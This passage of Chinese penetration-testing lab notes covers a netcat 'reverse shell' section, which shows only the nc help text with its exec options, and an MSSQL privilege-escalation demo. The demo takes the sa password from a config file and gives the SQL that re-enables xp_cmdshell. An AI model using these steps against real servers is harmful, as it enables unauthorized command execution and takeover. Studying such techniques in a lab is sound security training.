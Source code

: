 **备注：**问题是如何让我服务器重启，在一般的情况下服务器是不会轻易的重启的，要想重启就是做一些恶意的操作，ddos攻击和恶意脚本攻击。
<a name="Eneb8"></a>
## 方法四：nc反弹shell
nc相关知识：[https://www.cnblogs.com/-chenxs/p/11748488.html](https://www.cnblogs.com/-chenxs/p/11748488.html)
```vue
[v1.10-46]
connect to somewhere:   nc [-options] hostname port[s] [ports] ...
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
        -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

```
<a name="E9zuy"></a>
# 三、mssql提权演示
环境准备：windows2008、SqlServer2008<br />流程：服务探针-信息收集-提权利用-获取权限<br />[https://www.cnblogs.com/linuxsec/articles/11966287.html](https://www.cnblogs.com/linuxsec/articles/11966287.html)
<a name="yInX7"></a>
## 1、使用xp_cmdshell进行提权
<1>通过查看服务器配置文件得到sa账户密码为admin。<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648295878699-2760b9f4-0c17-4aa4-83a1-0cf77476a4ef.png#clientId=u249298de-b33e-4&from=paste&id=ude998458&originHeight=72&originWidth=543&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=uc3cdbeac-400e-4fe6-8883-83e0937f7e6&title=)<br /><2>由于mssql默认支持外联，因为可以本地通过SqlServer2008客户端使用sa账户密码连接。Navicat也能连接，但是推荐用官方的。<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648295878634-733fe55f-8a6f-4611-b85c-180db382a614.png#clientId=u249298de-b33e-4&from=paste&id=u941efab8&originHeight=391&originWidth=843&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=uecee7eab-4bf7-4819-bc1c-0e4763537c4&title=)<br /><3>启用xp_cmdshell。xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重新开启它。
```vue
启用：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
 
关闭；
exec sp_configure 'show advanced options',1 ；
```